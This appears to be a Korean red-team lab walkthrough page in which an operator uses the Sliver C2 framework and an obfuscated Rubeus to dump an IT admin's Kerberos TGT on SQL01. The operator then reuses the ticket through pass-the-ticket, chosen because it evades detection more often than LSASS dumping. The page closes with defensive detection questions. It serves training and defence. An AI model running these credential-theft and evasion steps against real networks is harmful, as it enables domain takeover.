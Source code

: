 # 6. 권한 상승 - SQL01

이번 섹션에서는 다음과 같은 주제들을 다룬다:

* Rubeus 난독화 및 인-프로세스 .NET 어셈블리 실행
* 계정 덤프 - TGT 덤프
* Pass-the-Ticket



<figure><img src="../.gitbook/assets/AttackPath5-SQL01-TGTDump.drawio.png" alt=""><figcaption></figcaption></figure>

SQL01 세션에서 다시 한 번 Rahat.Kuma 유저의 세션을 확인한다.

```
sliver (EXPLICIT_SILVER) > sa-enum-local-sessions

[*] Successfully executed sa-enum-local-sessions (coff-loader)
[*] Got output:
Enumerating sessions for local system:
  - [1] Console: SQL01\localuser
  - [2] (Disconnected): US\Administrator
  - [3] RDP-Tcp#6: US\Rahat.Kuma
```

이미 RDP 세션이 구축됐으니, 크레덴셜 덤핑(Credential Dumping)을 진행한다. LSASS 메모리 덤프 후 NT 해시를 획득하는 mimikatz 스타일의 크레덴셜 덤핑은 탐지가 너무 많이 되기 때문에, 굳이 진행하지 않는다. 대신, Rubeus를 이용한 TGT 덤프 후 Pass-the-Ticket을 이용한다.

SharpHound와 마찬가지로 Rubeus 또한 수동 난독화를 한 뒤 인-프로세스에서 사용한다.

먼저 Rubeus를 이용해 Rahat.Kuma의 TGT가 만료되지 않고 살아있는지 확인한다.

```
sliver (CHRONIC_MORTGAGE) > inline-execute-assembly /root/Rubeus.exe "triage"

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

-------------------------------------------------------------------------------------------------------- 
| LUID      | UserName                    | Service                            | EndTime               |
-------------------------------------------------------------------------------------------------------- 
| 0x12cb0a8 | Rahat.Kuma @ US.RT.LOCAL    | krbtgt/US.RT.LOCAL                 | 1/19/2025 9:05:26 PM  |
| 0x12091bb | Rahat.Kuma @ US.RT.LOCAL    | krbtgt/US.RT.LOCAL                 | 1/19/2025 10:33:46 PM |
| 0x12091bb | Rahat.Kuma @ US.RT.LOCAL    | LDAP/udc01.us.rt.local/us.rt.local | 1/19/2025 10:33:46 PM |
```

현재 시간 기준 아직 3시간 정도 사용할 수 있기 때문에, 덤프한다.



<figure><img src="../.gitbook/assets/4-lateralmovement-rahat-kuma-tgt (1).png" alt=""><figcaption></figcaption></figure>

덤프한 TGT는 USWKSTN01에 Pass-the-Ticket을 이용해 활용한다.

```
sliver (TOUGH_BREADCRUMB) > inline-execute-assembly /root/Rubeus.exe "ptt /ticket:doIFmDCCBZSgAwIBBaEDAg <...생략...> 

[*] Action: Import Ticket
[+] Ticket successfully imported!

sliver (TOUGH_BREADCRUMB) > rubeus -- "triage"

[*] Current LUID    : 0x16c077f9

-------------------------------------------------------------------------------------- 
| LUID       | UserName                 | Service            | EndTime               |
-------------------------------------------------------------------------------------- 
| 0x16c077f9 | Rahat.Kuma @ US.RT.LOCAL | krbtgt/US.RT.LOCAL | 1/19/2025 10:33:46 PM |
--------------------------------------------------------------------------------------

```



## 마치며&#x20;

SQL01의 권한 상승을 통해 레드라쿤은 결국 SQL01에서 Rahat.Kuma 라는 IT 관리자의 TGT를 획득했다. 해당 유저는 도메인 관리자 소속까지는 아니지만, Tier0에 속하는 중요한 유저로서, 모든 서버에 로컬 관리자 권한을 갖고 있는 유저다.

이제 Rahat.Kuma를 이용해 추가 서버들을 장악해 도메인 장악까지 진행해본다.

## 우리 회사는

* 메모리상에서 Fork & Run 형태로 실행되는 .NET 어셈블리들을 탐지하고 방지할 수 있는가?
* LSASS 프로세스에 `LsaCallAuthenticationPackage` 등의 winapi를 이용해 TGT 덤프 하는 행위들을 찾아낼 수 있는가?
* rc4\_hmac 등의 오래된 해시 알고리즘을 바탕으로 티켓을 요청하는 행위에 대한 탐지가 있는가?

